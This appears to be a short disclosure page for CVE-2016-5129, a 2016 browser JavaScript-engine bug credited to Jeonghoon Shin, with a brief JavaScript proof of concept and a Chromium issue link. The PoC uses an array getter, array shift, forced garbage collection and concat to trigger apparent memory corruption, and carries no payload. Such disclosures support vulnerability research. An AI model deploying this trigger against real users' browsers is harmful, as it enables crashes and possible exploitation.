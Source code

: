 # CVE-2016-5129

- Date: Jun 2016
- Credit: Jeonghoon Shin

## PoC

```javascript
var o0 = [];
var o1 = [];
var cnt = 0;
o1.__defineGetter__(0, function() {
  if (cnt++ > 2) return;
  o0.shift();
  gc();
  o0.push(0);
  o0.concat(o1);
});
o1[0];
```

## Reference

- [Issue](https://crbug.com/620553)
